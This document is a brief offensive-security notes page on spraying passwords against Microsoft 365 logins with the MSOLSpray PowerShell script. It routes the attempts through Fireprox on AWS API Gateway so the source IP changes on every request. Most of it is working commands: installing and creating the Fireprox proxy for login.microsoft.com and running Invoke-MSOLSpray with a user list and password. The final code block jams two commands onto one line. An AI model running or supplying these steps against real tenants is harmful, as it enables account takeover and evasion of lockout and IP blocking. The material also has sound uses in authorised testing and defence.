

# MSOLSpray & Fireprox

## MSOLSpray & Fireprox

MSOLSpray allows us to spray passwords against a list of user while fireprox can be used to rotate IPs at every request.

### MSOLSpray

* check if user cred is valid
* MFA is enabled
* Tenant exists or not
* A user exists or not
* If an account is disabled/locked
* If a user password is expired

#### Import MSOLSpray script

```csharp
. .\MSOLSpray.ps1
```

#### Create a user list from recon steps and start to spray



### Fireprox

#### Install Fireprox on Kali

```csharp
git clone https://github.com/ustayready/fireprox
cd fireprox 
virtualenv -p python3 . 
source bin/activate
pip install -r requirements.txt
python fire.py
python fire.py --access_key AKIAP  --secret_access_key 5BzQZeL --region us-east-1 --url https://login.microsoft.com --command create
```

#### On Windows

* Import MSOLSpray module
* create an userlist to spray
* Use AWS url/credentials in command arguments

```bash
PS C:\Users\b3v1l\Desktop\tools\MSOLSpray> Import-Module .\MSOLSpray.ps1
PS C:\Users\b3v1l\Desktop\tools\MSOLSpray> Invoke-MSOLSpray -UserList ..\..\user.txt -Password WrongPassword! -URL https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox
```

```csharp
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\brutelist.txt -Password WrongPass123 -URL 
https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox python fire.py --access_key $KEY --secret_access_key  $SECRET --region  --a pi_id  --command destroy
```

### Resources





